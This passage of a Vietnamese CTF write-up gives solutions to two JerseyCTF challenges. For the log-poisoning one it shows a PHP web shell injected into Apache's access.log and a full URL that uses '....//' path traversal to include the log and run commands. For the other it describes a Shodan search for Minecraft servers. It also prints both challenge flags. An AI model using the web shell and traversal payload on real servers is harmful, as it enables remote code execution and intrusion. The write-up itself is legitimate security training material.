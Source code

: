 cái đoạn /`<?php system($_GET['poison']);?>`  này cũng sẽ được lưu vào file access.log và điều hay ở chỗ ta có thể thực thi được nó luôn

Tiếp theo chỉ cần truy cập: https://jerseyctf-poisoned.chals.io/?page=....//....//....//....//....//....//....//var/log/apache2/access.log&poison=ls%20/ để thực thi mã

![](https://hackmd.io/_uploads/BkOENsHi2.png)


flag: `jctf{4PachE_L0G_POiS0nInG}`




# sho-me-how-to-mine
MISC

614 Point

## Description

![](https://hackmd.io/_uploads/BkQH4sSsn.png)


## Hint
What are we capturing in a CTF?

## Solution
Bài này thì đề bài gợi ý khá kỹ . chỉ cần đoán 1 chút xíu, nhưng mà trong Hint cũng có luôn rồi
Đề bài có nhắc tới: Minecraft Java Edition server,  Shodan

Mình vào shodan và tìm kiếm máy chủ: Minecraft Java Edition

Chỉ có 40 kết quả thôi này. có vẻ như mình sẽ tìm flag trong mấy cái server này.

![](https://hackmd.io/_uploads/SyiBNiHoh.png)

Sau khi xem 1 hồi mình không thấy cái flag nào cả.

đề bài gợi ý: chúng ta đang capture cái gì trong ctf?  => flag

đổi tìm kiếm thành: Minecraft Java Edition flag

![](https://hackmd.io/_uploads/H1G84oSjh.png)


>> =)))

sau khi thay đổi 1 chút thì mình tìm thấy flag ở đây: https://www.shodan.io/search?query=Minecraft+flag

![](https://hackmd.io/_uploads/ryYINorj3.png)


flag: `jctf{mining_s1nc3_2011!}`
